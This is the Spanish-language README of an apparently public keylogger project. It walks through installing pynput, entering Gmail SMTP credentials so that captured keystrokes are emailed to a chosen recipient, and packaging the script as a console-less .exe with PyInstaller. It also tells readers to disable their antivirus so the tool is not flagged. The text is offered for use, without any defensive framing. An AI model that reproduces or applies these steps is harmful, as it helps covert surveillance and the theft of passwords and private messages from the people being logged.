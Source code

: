 # 📌 Instalación de Dependencias en Python

Antes de ejecutar el keylogger, asegúrate de instalar las bibliotecas necesarias.

## 📌 Requisitos

🔹 Python 3.x instalado en tu sistema.
🔹 Conexión a Internet para descargar las dependencias.

## 🚀 Instalación de Dependencias

### 1️⃣ Instalar `pynput` para Captura de Teclado

El módulo `pynput` permite registrar las teclas presionadas en el sistema. Instálalo con:

```bash
pip install pynput
```

### 2️⃣ Instalar `smtplib` y `email` para Envío de Correos

El módulo `smtplib` ya está incluido en Python, pero `email` se usa para estructurar los mensajes de correo. Se recomienda actualizar `email` con:

```bash
pip install secure-smtplib
```

### 3️⃣ Verificar Instalación

Después de instalar las dependencias, verifica que se hayan instalado correctamente ejecutando:

## ✉️ Configuración del Correo

Abre el archivo y reemplaza los siguientes valores con tu información:

```python
mensaje["From"] = "tucorreo@gmail.com"
mensaje["To"] = "destinatario@gmail.com"
server.login("tucorreo@gmail.com", "tu_contraseña")
server.sendmail("tucorreo@gmail.com", "destinatario@gmail.com", mensaje.as_string().encode('utf-8'))
```

🔹 **Usa una contraseña de aplicación en lugar de tu contraseña real para mayor seguridad.**

## ▶️ Ejecutar el Keylogger

Para iniciar el keylogger, ejecuta:

```bash
python keylogger.py
```

📌 **Presiona `F11` para enviar el registro por correo o `ESC` para salir.**


```bash
pip list | grep -E "pynput|smtplib|email"
```

Si todo está bien, ya puedes ejecutar el script sin problemas. 🚀

# 🛠️ Crear un Archivo Ejecutable (.exe) con PyInstaller

Para convertir el script en un archivo ejecutable `.exe`, es necesario utilizar `pyinstaller`. Antes de proceder, **desactiva tu antivirus**, ya que podría detectar el keylogger como una amenaza y eliminarlo.

### 🚨 Desactivar Antivirus

🔹 Desactiva temporalmente la protección en tiempo real de tu antivirus antes de ejecutar el siguiente comando puede saltar un error asi.

![Desactivar Antivirus](./img/alerta.png)

### 🔹 Generar el Archivo .exe

Ejecuta el siguiente comando en la terminal dentro de la carpeta donde se encuentra `KeyLogger_Mail.py`:

```bash
pyinstaller --onefile --noconsole keylogger.py
